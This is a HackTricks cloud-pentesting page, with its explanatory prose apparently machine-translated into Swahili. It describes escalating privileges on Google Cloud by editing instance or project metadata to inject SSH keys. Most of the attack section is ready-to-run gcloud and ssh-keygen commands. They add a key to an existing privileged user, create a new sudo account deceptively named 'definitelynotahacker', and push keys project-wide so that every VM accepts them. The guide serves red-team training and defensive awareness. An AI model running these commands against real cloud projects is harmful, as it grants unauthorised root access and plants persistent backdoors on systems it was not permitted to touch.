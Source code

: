 # GCP - Add Custom SSH Metadata

## GCP - Add Custom SSH Metadata

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Modifying the metadata <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Kubadilisha metadata kwenye mfano kunaweza kusababisha **hatari kubwa za usalama ikiwa mshambuliaji atapata ruhusa zinazohitajika**.

#### **Incorporation of SSH Keys into Custom Metadata**

Katika GCP, **mifumo ya Linux** mara nyingi inatekeleza skripti kutoka [Python Linux Guest Environment for Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). Sehemu muhimu ya hii ni [accounts daemon](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), ambayo imeundwa ili **kuangalia mara kwa mara** mwisho wa metadata ya mfano kwa **sasisho za funguo za umma za SSH zilizoidhinishwa**.

Hivyo, ikiwa mshambuliaji anaweza kubadilisha metadata ya kawaida, anaweza kufanya daemon ipate funguo mpya za umma, ambazo zitawekwa na **kuunganishwa kwenye mfumo wa ndani**. Funguo hiyo itaongezwa kwenye faili ya `~/.ssh/authorized_keys` ya **mtumiaji aliye tayari au labda kuunda mtumiaji mpya mwenye ruhusa za `sudo`**, kulingana na muundo wa funguo. Na mshambuliaji ataweza kuathiri mwenyeji.

#### **Add SSH key to existing privileged user**

1. **Examine Existing SSH Keys on the Instance:**
*   Tekeleza amri ya kuelezea mfano na metadata yake ili kupata funguo za SSH zilizopo. Sehemu inayohusiana katika matokeo itakuwa chini ya `metadata`, hasa funguo ya `ssh-keys`.

```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
* Angalia muundo wa funguo za SSH: jina la mtumiaji linatangulia funguo, likitenganishwa na alama ya nukta.
2. **Prepare a Text File for SSH Key Metadata:**
* Hifadhi maelezo ya majina ya watumiaji na funguo zao za SSH katika faili la maandiko lililo na jina `meta.txt`. Hii ni muhimu ili kuhifadhi funguo zilizopo wakati wa kuongeza mpya.
3. **Generate a New SSH Key for the Target User (`alice` in this example):**
*   Tumia amri ya `ssh-keygen` kuzalisha funguo mpya ya SSH, kuhakikisha kuwa uwanja wa maoni (`-C`) unalingana na jina la mtumiaji wa lengo.

```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
* Ongeza funguo mpya ya umma kwenye `meta.txt`, ukifanana na muundo ulio katika metadata ya mfano.
4. **Update the Instance's SSH Key Metadata:**
*   Tumia metadata ya funguo za SSH iliyosasishwa kwenye mfano kwa kutumia amri ya `gcloud compute instances add-metadata`.

```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```
5. **Access the Instance Using the New SSH Key:**
*   Unganisha kwenye mfano kwa kutumia SSH na funguo mpya, ukipata shell katika muktadha wa mtumiaji wa lengo (`alice` katika mfano huu).

```bash
ssh -i ./key alice@localhost
sudo id
```

#### **Create a new privileged user and add a SSH key**

Ikiwa hakuna mtumiaji wa kuvutia anayeonekana, inawezekana kuunda mpya ambayo itapewa ruhusa za `sudo`:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
#### SSH keys at project level <a href="#sshing-around" id="sshing-around"></a>

Inawezekana kupanua ufikiaji wa SSH kwa Mashine nyingi za Kijijini (VMs) katika mazingira ya wingu kwa **kutumia funguo za SSH katika kiwango cha mradi**. Njia hii inaruhusu ufikiaji wa SSH kwa mfano wowote ndani ya mradi ambao haujazuia wazi wazi funguo za SSH za mradi. Hapa kuna mwongozo wa muhtasari:

1. **Tumia Funguo za SSH katika Kiwango cha Mradi:**
*   Tumia amri `gcloud compute project-info add-metadata` kuongeza funguo za SSH kutoka `meta.txt` kwenye metadata ya mradi. Kitendo hiki kinahakikisha kwamba funguo za SSH zinatambuliwa katika VMs zote ndani ya mradi, isipokuwa VM ambayo ina chaguo la "Block project-wide SSH keys" limewezeshwa.

```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```
2. **SSH kwenye Mifano kwa Kutumia Funguo za Mradi:**
* Kwa funguo za SSH za mradi zilizowekwa, unaweza SSH kwenye mfano wowote ndani ya mradi. Mifano ambayo haizuia funguo za mradi itakubali funguo za SSH, ikitoa ufikiaji.
* Njia moja ya moja ya SSH kwenye mfano ni kutumia amri `gcloud compute ssh [INSTANCE]`. Amri hii inatumia jina lako la mtumiaji wa sasa na funguo za SSH zilizowekwa katika kiwango cha mradi kujaribu ufikiaji.

## References

* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

